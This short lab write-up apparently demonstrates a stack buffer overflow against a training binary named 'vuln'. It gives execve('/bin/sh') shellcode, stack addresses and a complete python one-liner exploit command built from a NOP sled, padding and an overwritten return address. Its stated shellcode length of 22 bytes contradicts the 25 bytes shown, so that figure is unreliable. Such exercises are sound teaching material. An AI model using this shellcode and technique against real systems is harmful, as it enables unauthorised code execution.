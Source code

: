 This is the most basic way to start up a shell...

shellcode: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

This was to find the memory location of the code
Address: 0xbffff048 of ebp at this point
Address of start of stack 0xbfffefdc

The payload is quite complicated... But, here it goes! First, the \x90 is used for NOP, or no operations, to allow us to use a somewhat accurate memory spot. The next part is the shell code itself, clearly, which is 22 bytes. Now, there is 40 NOPs and 22 or bytes. Because the size of the buffer + ebp is 112, we need to have 112 characters on the stack then overwrite the return address. So, we add 47 more characters to get us to the 112 (the A doesn't matter, could have been anything else). Finally, the return address is put into the middle of the NOPs. This will give us a shell!

\xdc\xef\xff\xbf
./vuln $(python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*47 + "\xdc\xef\xff\xbf"')
